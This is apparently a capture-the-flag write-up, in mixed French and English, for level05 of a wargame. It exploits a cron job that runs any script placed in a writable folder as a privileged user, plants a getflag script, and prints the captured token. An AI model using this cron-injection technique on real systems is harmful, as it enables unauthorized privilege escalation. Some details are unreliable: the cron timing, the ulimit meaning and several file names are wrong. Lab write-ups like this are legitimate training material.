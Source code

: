 As soon as you log in to level05, a notification appears :
<pre><code>You have new mail.</code></pre>

On fait un **cat** du mail reçu, qui se situe dans <code>/var/mail/level05</code> :
<pre><code>> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
</code></pre>

Il s'agit d'une tâche **cron** dont le format est le suivant :
<pre>
*/2	*	*	*	*
minute	hour	day	month	day
</pre>
> So every 30 seconds the task: <code>su -c 'sh /usr/sbin/openarenaserver"</code> will be executed

We **cat** the file <code>/usr/sbin/openarenaserve</code>, which gives us :
```sh
#!/bin/sh
for i in /opt/openarenaserver/* ; do
# For each file in the folder
		(ulimit -t 5; bash -x "$i")
		# With an interval of 5 sc, execute the file
		rm -f "$i"
		# Delete the file
done
```

The idea is to create a file that we will put in the folder <code>/opt/openarenaserver/</code> so that it will run as soon as the task **cron** is activated :
<pre><code>echo "getflag > /tmp/token" > /tmp/getflag.sh
mv /tmp/getflag.sh /opt/openarenaserver/getflash.sh
</code></pre>
> We store in <code>/tmp/token</code> the result because **cron** takes place in background and does not display a message.

We just have to make **ls** of <code>/opt/openarenaserver/</code> and wait for the file <code>/tmp/getflag.sh</code> to be deleted to know when the task has been done, so we just have to retrieve the flag :
<pre><code>> cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
</code></pre>